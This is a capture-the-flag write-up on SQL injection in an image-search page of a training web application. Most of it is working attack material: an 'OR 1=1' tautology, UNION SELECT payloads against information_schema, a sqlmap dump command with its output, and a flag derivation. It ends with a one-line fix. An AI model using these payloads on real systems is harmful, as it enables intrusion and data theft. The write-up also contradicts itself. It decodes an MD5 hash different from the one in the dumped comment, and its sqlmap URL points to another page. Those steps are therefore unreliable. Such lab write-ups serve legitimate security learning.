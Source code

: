 # Sql Injection Images
- In the page /?page=searchimg there is a field to search images by their numbers (ids).

# Vulnerability
- We could imagine the SQL statement in back end is as follows:
```sql 
    SELECT * FROM list_images WHERE id = $_GET['id']
```
- We can enter some malicious input like this: 42 OR 1=1 this statment is always true so it will return ALL rows from the "list_images" table.

# Method 1
- We Can Use SQL Injection to find all tables of a database:
``` sql
1 UNION SELECT table_name, table_schema FROM information_schema.tables
```
- We Can Notice Something Like This:
    Title: Member_images
    Url : list_images

- We can try to find all columns
``` sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```
- We Notice The Table list_images from the [Url : list_images] output has these columns:
    __id, url, title, comment__

- We Know now __list_images__ columns, we can select __url, comment__:
``` sql
1 UNION select url, comment from list_images
```
- Notice This:
    Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
    Url : borntosec.ddns.net/images.png
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is 'albatroz albatroz'.
- Converting 'albatroz albatroz' to sha256 is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 Which is Our Flag.


# Method 2
- Using 'sqlmap' to dump users data from list_images table:
sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_images -T list_images --dump
    
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+

- Notice the comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is 'albatroz albatroz'.
- Converting 'albatroz albatroz' to sha256 is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 Which is Our Flag.

# Fix
- We can prevent this by using prepared statements and parameterized queries.